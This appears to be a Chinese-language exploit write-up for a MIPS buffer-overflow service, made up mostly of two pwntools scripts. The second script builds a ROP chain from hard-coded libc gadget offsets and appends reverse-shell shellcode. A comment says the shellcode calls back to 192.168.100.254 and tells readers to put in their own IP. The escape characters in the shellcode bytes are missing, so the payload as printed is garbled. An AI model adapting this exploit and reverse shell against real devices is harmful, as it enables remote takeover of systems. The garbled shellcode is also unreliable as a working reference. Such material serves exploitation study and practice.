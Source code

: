 3.exp.py

```
from pwn import *
context.endian = "little"
context.arch = "mips"
p = remote('127.0.0.1',9999)
p.recvuntil('Send Me Bytes:')
data = "xxxx"
p.sendline(data)
p.interactive()
```

我们在exp上面的data中填充进我们想要的内容就可以，以上就是调试的过程。我们还是根据确定偏移，构造rop，填充shellcode的，寻找libc基地址的流程来进行，详细的exp如下：

```
from pwn import *
context.endian = "little"
context.arch = "mips"
#port：31337
shellcode = ""
shellcode += "x26x40x08x01"*5
shellcode += "xffxffx04x28xa6x0fx02x24x0cx09x09x01x11x11x04x28"
shellcode += "xa6x0fx02x24x0cx09x09x01xfdxffx0cx24x27x20x80x01"
shellcode += "xa6x0fx02x24x0cx09x09x01xfdxffx0cx24x27x20x80x01"
shellcode += "x27x28x80x01xffxffx06x28x57x10x02x24x0cx09x09x01"
shellcode += "xffxffx44x30xc9x0fx02x24x0cx09x09x01xc9x0fx02x24"
shellcode += "x0cx09x09x01x79x69x05x3cx01xffxa5x34x01x01xa5x20"
shellcode += "xf8xffxa5xafx64xfex05x3cxc0xa8xa5x34xfcxffxa5xaf"           # 192.168.100.254(这个里面改为自己的本机ip地址，也就是x64fe和xc0xa8改为自己相应的ip)
shellcode += "xf8xffxa5x23xefxffx0cx24x27x30x80x01x4ax10x02x24"
shellcode += "x0cx09x09x01x62x69x08x3cx2fx2fx08x35xecxffxa8xaf"
shellcode += "x73x68x08x3cx6ex2fx08x35xf0xffxa8xafxffxffx07x28"
shellcode += "xf4xffxa7xafxfcxffxa7xafxecxffxa4x23xecxffxa8x23"
shellcode += "xf8xffxa8xafxf8xffxa5x23xecxffxbdx27xffxffx06x28"
shellcode += "xabx0fx02x24x0cx09x09x01"
gadget0 = 0x2fb10
gadget1 = 0x6A50
gadget2 = 0x20F1C 
gadget3 = 0x16DD0
gadget4 = 0x214A0 
libc_base = 0x77ee2000
#libc_base = 0x766e5000
sleep_offset = 0x2F2B0
data = "a"*51
data += p32(gadget1+libc_base)
data += "b"*0x58
data += "bbbb" #s0
data += p32(gadget2+libc_base) #s1
data += p32(sleep_offset+libc_base) #s2
data += p32(gadget0+libc_base)
data +="c"*0x18
data += p32(gadget4+libc_base) #s0
data += "cccc" #s1
data += "cccc" #s2
data += p32(gadget3+libc_base) #ra
data += "d"*0x18
data += shellcode
p = remote('127.0.0.1',9999)
p.recvuntil('Send Me Bytes:')
p.sendline(data)
p.interactive()
```
